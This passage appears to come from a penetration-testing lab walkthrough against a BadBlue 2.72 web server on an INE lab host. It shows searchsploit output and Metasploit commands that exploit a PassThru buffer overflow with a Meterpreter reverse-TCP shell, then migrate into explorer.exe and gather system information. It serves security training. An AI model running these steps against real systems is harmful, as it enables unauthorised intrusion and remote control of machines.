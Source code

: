**Step 3**.

`searchsploit badblue 2.7`:
```
[*] exec: searchsploit badblue 2.7

-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
BadBlue 2.72 - PassThru Remote Buffer Overflow                                                                      | windows/remote/4784.pl ←
BadBlue 2.72b - Multiple Vulnerabilities                                                                            | windows/remote/4715.txt
BadBlue 2.72b - PassThru Buffer Overflow (Metasploit)                                                               | windows/remote/16806.rb
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

`msfconsole -q`, `search badblue`, `use exploit/windows/http/badblue_passthru`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set RHOSTS demo.ine.local`, `exploit -j`.

**Step 4**.

`ps -S explorer.exe`:
```
Filtering on 'explorer.exe'

Process List
============

 PID   PPID  Name          Arch  Session  User                 Path
 ---   ----  ----          ----  -------  ----                 ----
 2688  2680  explorer.exe  x64   1        WIN-I219UGQJ7H8\bob  C:\Windows\explorer.exe

```
`migrate 2688`.

**Step 5**.

`sysinfo`:
```
Computer        : WIN-I219UGQJ7H8
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```
